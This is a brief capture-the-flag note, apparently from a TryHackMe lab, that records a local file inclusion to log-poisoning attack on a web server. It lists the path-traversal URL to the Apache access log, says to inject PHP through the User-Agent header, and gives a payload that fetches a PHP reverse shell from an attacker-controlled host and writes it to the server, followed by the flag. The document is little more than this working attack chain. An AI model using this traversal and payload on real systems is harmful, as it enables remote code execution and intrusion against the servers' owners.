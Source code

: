 # Target
http://10.10.41.228/?view=dog/../../../../var/log/apache2/access&ext=.log

# PHP Injection
Modify User Agent with Burp or another proxy to code in php.

# Payload
<?php file_put_contents('shell.php', file_get_contents('http://10.11.21.187:8989/php-reverse-shell.php'))?>

# Flag
cat /var/www/flag2_QMW7JvaY2LvK.txt
``THM{LF1_t0_RC3_aec3fb}``
